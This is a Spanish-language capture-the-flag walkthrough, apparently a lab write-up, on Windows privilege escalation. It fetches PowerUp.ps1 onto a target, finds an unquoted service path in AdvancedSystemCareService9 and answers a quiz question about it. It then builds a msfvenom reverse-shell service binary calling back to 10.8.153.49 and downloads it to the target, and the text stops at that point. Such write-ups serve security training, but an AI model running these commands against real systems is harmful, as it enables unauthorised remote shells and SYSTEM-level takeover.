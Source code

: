 1. Obtener PowerUp.ps1 y dejarlo en una carpeta a compartir (usare la raiz)

```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```
2. Levantar servidor web para compartir archivo
```
python -m http.server 80
```

En maquina atacada
1. Obtener script
```
powershell -c "wget 10.8.153.49/PowerUp.ps1 -OutFile PowerUp.ps1"
```

En metasploit
2. Correr script 
```
meterpreter > load powershell
meterpreter > powershell_shell
```
```
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```
```
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths
```

Si nos fijamos, el Path es vulnerable y el service puede ser reiniciado (CanRestart: True)

Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?: **AdvancedSystemCareService9**

Ahora vamos a crear un exploit con msfvenom que apunte al servicio Advanced.exe (abusando de la vulnerabilidad), en nuestra maquina atacante.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.153.49 LPORT=4443 -f exe-service -o Advanced.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe-service file: 15872 bytes
Saved as: Advanced.exe
```

Descargamos el "servicio"
```
PS > wget 10.8.153.49/Advanced.exe -OutFile Advanced.exe
```
